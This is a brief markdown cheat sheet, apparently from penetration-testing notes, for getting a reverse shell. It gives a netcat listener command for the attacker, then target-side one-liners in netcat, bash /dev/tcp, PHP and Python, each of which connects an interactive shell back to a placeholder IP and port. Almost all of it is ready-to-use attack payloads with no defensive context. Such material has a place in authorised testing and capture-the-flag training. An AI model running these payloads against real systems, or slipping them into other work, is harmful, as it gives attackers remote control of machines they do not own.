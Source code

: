 # Reverse shell

On host:

```bash
nc -lvnp <PORT>
```

General options on target:

```bash
nc <IP> <PORT> -c bash
```

```bash
/bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

```php
<?php exec(“/bin/bash -c ‘bash -i >& /dev/tcp/<IP>/<PORT> 0>&1’”); phpinfo(); ?>
```

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<IP>",<PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

See [upgrade-dumb-shell](upgrade-dumb-shell.md) for upgrading.